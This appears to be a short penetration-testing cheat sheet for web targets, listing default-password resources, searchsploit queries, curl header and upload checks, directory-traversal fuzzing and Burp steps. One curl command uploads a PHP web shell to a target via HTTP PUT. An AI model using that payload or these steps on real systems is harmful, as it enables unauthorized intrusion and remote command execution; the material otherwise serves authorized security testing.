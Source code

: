 ### Default/Weak login
Google documentation for default passwords and test them:
```
http://open-sez.me/
https://cirt.net/passwords
```

### Find sploits - Searchsploit and google
Where there are many exploits for a software, use google. It will automatically sort it by popularity.
```
site:exploit-db.com apache 2.4.7

# Remove dos-exploits

searchsploit Apache 2.4.7 | grep -v '/dos/'
searchsploit Apache | grep -v '/dos/' | grep -vi "tomcat"

# Only search the title (exclude the path), add the -t
searchsploit -t Apache | grep -v '/dos/'
```

### Manual Checks
```
Step 1:
View Source/Page for PII

Step 2: 
# Start Secondary Scans

# Get header and page
curl -i -L INSERTIPADDRESS

# Check if it is possible to upload using put
curl --user login:password --upload-file your.file.txt http://INSERTIPADDRES
curl -v -X OPTIONS http://INSERTIPADDRESS/
curl -v -X PUT -d '<?php system($_GET["cmd"]); ?>' http://INSERTIPADDRESS/test/shell.php

# User-agent test
ua-tester -u http://INSERTIPADDRESS -d MDCTB

# Check for title and all links
dotdotpwn.pl -m http -h INSERTIPADDRESS -M GET -o unix

Step 3:
Burp
Send page to repeater
  Look for headers that can be fuzzed
  ID= that can be changed
Send cookies to sequencer
Send curious strings to decrypter
```
